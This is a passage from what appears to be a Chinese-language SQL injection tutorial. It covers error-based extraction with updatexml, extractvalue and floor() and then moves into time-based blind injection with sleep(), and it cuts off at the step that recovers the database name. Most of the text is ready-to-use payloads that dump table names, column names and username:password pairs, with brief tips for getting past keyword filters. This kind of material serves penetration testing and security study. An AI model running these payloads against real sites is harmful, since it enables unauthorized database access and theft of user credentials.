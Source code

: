 **3、获取表名**

```sql
' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),0x7e),1)--+
```

**4、获取字段名**

```sql
' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),0x7e),1)--+
```

**5、取数据**

```sql
' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)--+
```

其它函数payload语法：

```sql
--extractvalue
' and extractvalue(1,concat(0x7e,(select database()),0x7e))--+

--floor()
' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)--+
```



## 时间型盲注

盲注是在SQL注入攻击过程中，服务器关闭了错误回显，单纯通过服务器返回内容的变化来判断是否存在SQL注入的方式 。

可以用benchmark，sleep等造成延时效果的函数。

如果benkchmark和sleep关键字被过滤了，可以让两个非常大的数据表做[笛卡尔积](https://blog.csdn.net/qq_32763643/article/details/79187931)产生大量的计算从而产生时间延迟；

或者利用复杂的正则表达式去匹配一个超长字符串来产生时间延迟。

**1、利用sleep判断数据库名长度**

```sql
' and sleep(5) and 1=1--+	页面返回不正常，延时5秒
' and sleep(5) and 1=2--+	页面返回不正常，不延时

and if(length(database())>1,sleep(5),1)
--if(条件表达式，真，假) --C语言的三目运算符类似
```

**2、获取数据库名**

```sql
and if(substr(database(),1,1)='a',sleep(5),1)--+
```

